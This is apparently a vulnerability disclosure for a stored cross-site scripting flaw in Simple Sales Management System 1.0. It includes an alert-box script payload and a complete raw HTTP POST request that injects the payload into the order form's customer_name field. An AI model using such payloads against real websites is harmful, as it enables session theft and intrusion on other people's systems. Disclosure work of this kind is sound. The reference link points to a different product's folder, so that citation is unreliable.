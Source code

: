 #### Title: Simple Sales Management System 1.0 Stored Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 03.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-codeigniter-simple-sales-management-system-source-code
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Stored)/POC.md

#### Description：
#### Simple Sales Management System is vulnerable to Stored cross-site scripting on the orders edit page. The "New Order" parameter in 'http://localhost/ci_ssms/index.php/orders' is vulnerable.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

#### Payload used:
`<script>alert("XSS")</script>`


### POC

```
POST /ci_ssms/index.php/orders/create HTTP/1.1
Host: localhost
Content-Length: 91
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/ci_ssms/index.php/orders/create
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: ci_session=ome77qk8e57r33fcfht2dktlgi421bj8
Connection: close

customer_name=%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E&products%5B%5D=21&qty%5B%5D=1
```

![image](https://github.com/CyberThoth/CVE/blob/3071fcfdc929fce59f1f443928bfd0f6243d3c47/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Stored)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/3071fcfdc929fce59f1f443928bfd0f6243d3c47/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Stored)/2.png)
